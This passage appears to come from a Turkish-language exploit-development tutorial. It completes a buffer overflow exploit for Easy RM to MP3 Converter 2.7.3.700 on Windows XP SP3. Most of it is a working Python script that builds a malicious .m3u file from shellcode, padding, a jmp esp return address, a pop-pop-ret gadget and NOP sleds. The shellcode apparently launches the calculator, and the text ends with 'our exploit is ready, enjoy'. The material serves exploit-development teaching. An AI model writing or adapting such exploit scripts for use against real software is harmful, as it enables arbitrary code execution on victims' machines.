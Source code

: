 Ve artık exploitimizi tamamlayabiliriz.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
jmp_esp = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pop_pop_ret = b"\x11\x11\xBF\x01" # pop edi pop esi retn - MSRMCcodec02.dll
nop = b"\x90"*25
pre_esp = b"JUNK"


exploit = padding + pop_pop_ret + pre_esp + b"\x90"*8 + jmp_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Exploitimiz hazır :) Afiyet olsun

![exploit](img/0x02/5.png)
